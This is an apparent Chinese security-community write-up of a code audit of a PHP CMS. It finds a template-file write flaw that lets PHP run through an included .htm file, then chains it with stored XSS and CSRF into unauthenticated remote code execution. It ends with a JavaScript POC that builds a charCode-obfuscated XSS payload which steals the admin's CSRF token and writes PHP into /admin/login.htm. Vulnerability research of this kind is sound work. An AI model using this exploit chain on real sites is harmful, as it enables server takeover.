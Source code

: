 

# 记一次代码审计中 RCE 挖掘及 POC 编写。 - 先知社区

记一次代码审计中 RCE 挖掘及 POC 编写。



记一次 RCE 漏洞挖掘及 POC 编写。

## 从危险的模板引入开始

在前面熟悉代码的过程中，可以注意到此 CMS 的模板引入方式。以 catalog\_add.php 文件为例，直接采用了 include 来将 htm 文件包含，而不是将 php 文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在 php 中，include 的使用需要更谨慎才对。  
`include XXInclude('templets/catalog_add.htm');`  
[![](assets/1701606694-228b0aa0256de3b2a559572551b32145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112103-039a0490-7eaf-1.png)  
问题出现在 src/admin/file\_manage\_control.php 文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
[![](assets/1701606694-185c44aaf6593c36954223618d775964.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112227-35928274-7eaf-1.png)  
查看变量处理，针对变量$activepath，处理的关键逻辑在 15、16、17 行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
[![](assets/1701606694-66b08667a681001f793d641eedfbefe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112308-4e148d92-7eaf-1.png)  
针对变量$filename，处理的关键逻辑在 44-48 行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的`..`，并限制可以上传或编辑的文件扩展名不能为 (php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml) 其中的任意项。  
[![](assets/1701606694-7ec9403ff25e7c44725e2d6daee6bf82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112328-59d8998e-7eaf-1.png)  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是 (php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀 htm 会是合法的。  
所以，此时可以将任意文件内容写入到 htm 文件中，为什么要写入到 htm 文件？因为此系统所使用的模板文件就是 htm，而我前面提到了直接采用了 include 来将 htm 文件包含，而不是将 php 文件处理的数据放入模板中会造成的危害也就是这里体现出来：将 php 脚本放在 htm 中，当被 include 的时候，php 脚本便会执行。  
[![](assets/1701606694-e9b0b0e742106059ffb4f3d3a4313c14.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112403-6e596096-7eaf-1.jpg)  
[![](assets/1701606694-05a895b3beb1a81844aba09e892dae0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112437-82ae018c-7eaf-1.png)

## 组合拳进行危害提升

上面可以通过模板文件写入的方式 RCE 了，但是很鸡肋，这样只能是后台 rce，这时候想将漏洞变成未授权的 RCE 只需要解决两个问题：  
1 只有管理员权限才能访问/admin 路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过 login 文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过 XSS、或者 CSRF 打出组合拳或者直接尝试找到 SQL 注入登录后台就能解决。  
那接下来的思路就是通过找到有效的 XSS/CSRF/SQL 注入，让我们能以管理员的身份写入 shell 到/admin/login.htm 文件中。  
进入到 src/admin/article\_edit.php 文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处 148 行有一处疑似有问题的 SQL 语句。  
[![](assets/1701606694-e989d114cceedc92b32701c3f6b8fbbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112506-943e5ff0-7eaf-1.png)  
这个查询语句的目的是将一条记录跟新到名为 `$addtable`(此处即 biz\_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。

```plain
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```

进一步跟进 dsql->ExecuteNoneQuery 函数，发现系统是在执行 SQL 的时候做了安全检查，跟进 CheckSql，发现是有针对 SQL 注入存在详细的过滤，不排除有绕过 SQL 的手法，但是此处选择另一条简单的利用思路。  
[![](assets/1701606694-96249784f7c3be5ab7b309a42a22f128.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112548-ad0094b8-7eaf-1.png)  
[![](assets/1701606694-74e80e70b883d4aad990933271f742b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120020-80033560-7eb4-1.png)  
因为没有对参数做 xss 的过滤，所以此时考虑利用存储型的 XSS 漏洞即可，去功能点用 payload 插入含有输出点的 body 参数进行测试，发现成功执行。  
[![](assets/1701606694-f22dec2282cbaadfd9530e865a8c77fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120049-9183aebe-7eb4-1.png)  
[![](assets/1701606694-fb03ec07772c23e4137cc7236f31bd81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120110-9dbac3b6-7eb4-1.png)

## 整合思路编写 POC

思路也是比较清晰  
1.攻击者利用普通用户的文档编辑功能，将 XSS 的 payload 藏在文档中。  
2.管理员用户对普通用户的文档进行审核时执行 XSS 的 payload，在不知情的情况下将 shell 写在/admin/login.htm 文件中  
3.getshell，地址为：[http://xxx/admin/login.php](http://xxx/admin/login.php)  
POC 和部分截图放在下面

```plain
//将此脚本放在浏览器控制台执行即可获得 payload
var codeString = "//  获取 URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取 Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('<img src="x"\n  onerror="eval(String.fromCharCode('+asciiString+'))">')
```

[![](assets/1701606694-afe8367cc375b2291d1ac5458d5577f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109110801-31582f6c-7ead-1.png)  
本篇文章因为一些原因（懂的都懂）。。。  
在尽量不影响阅读的前提上加了厚马，若有师傅想要源码进行复现学习的可以再联系我。
